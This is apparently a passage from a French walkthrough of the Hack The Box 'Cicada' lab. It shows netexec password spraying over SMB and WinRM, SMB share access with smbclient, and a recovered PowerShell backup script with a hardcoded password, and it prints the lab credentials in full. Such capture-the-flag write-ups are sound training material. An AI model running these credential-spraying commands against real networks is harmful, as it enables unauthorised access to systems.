 ![ldapsearch finds passwords](/images/HTB-Cicada/ldapsearch_pwdfind.png)

Ensuite, nous comparons la liste des utilisateurs au nouveau mot de passe trouvé.

```
netexec smb cicada.htb -u users.txt -p 'aRt$Lp#7t*VQ!3' --continue-on-success
```

![ldap password match](/images/HTB-Cicada/pwd_match.png)

Nous savons maintenant que le mot de passe `aRt$Lp#7t*VQ!3` appartient à `david.orelious`.

---

Avec ces nouveaux identifiants, nous énumérons à nouveau SMB.

```
netexec smb cicada.htb -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares
```

![david.orelious available shares](/images/HTB-Cicada/david_smb.png)

Cet utilisateur a accès au partage `DEV`.

```
smbclient //cicada.htb/DEV -U david.orelious
```

![DEV share accessed](/images/HTB-Cicada/DEV_share.png)

Le partage `DEV` contient un fichier appelé `Backup_script.ps1` que nous téléchargeons. Son contenu est le suivant:

```PowerShell
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

## Shell en tant que emily.oscars

Le script contient le mot de passe (`Q!3@Lp#M6b*7t*Vt`) de `emily.oscars`. Nous savons d'après le scan nmap que winrm tourne sur le port 5985. Vérifions donc si nous pouvons nous connecter avec.

Faites une liste avec les trois mots de passe que nous avons jusqu'à présent et comparez-la à la liste des noms d'utilisateurs.

```
netexec winrm cicada.htb -u users.txt -p passwords.txt
```
